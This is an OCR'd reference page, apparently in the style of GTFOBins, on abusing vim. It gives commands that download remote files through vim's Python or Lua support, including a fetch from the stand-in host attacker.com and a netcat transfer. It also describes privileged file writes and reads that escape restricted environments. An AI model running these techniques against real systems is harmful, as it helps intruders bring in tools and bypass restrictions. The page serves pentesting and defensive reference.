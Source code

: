 
## **File download**

It can download remote files.

- This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
    
    ```bash
    export URL=http://attacker.com/file_to_get
    export LFILE=file_to_save
    vim -c ':py import vim,sys; from os import environ as e
    if sys.version_info.major == 3: import urllib.request as r
    else: import urllib as r
    r.urlretrieve(e["URL"], e["LFILE"])
    vim.command(":q!")'
    ```
    
- Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
    
    ```bash
    export LPORT=12345
    export LFILE=file_to_save
    vim -c ':lua local k=require("socket");
      local s=assert(k.bind("*",os.getenv("LPORT")));
      local c=s:accept();
      local d,x=c:receive("*a");
      c:close();
      local f=io.open(os.getenv("LFILE"), "wb");
      f:write(d);
      io.close(f);'
    ```
    

## **File write**

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```bash
vim file_to_write
iDATA
^[
w
```

## **File read**

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```bash
vim file_to_read
```
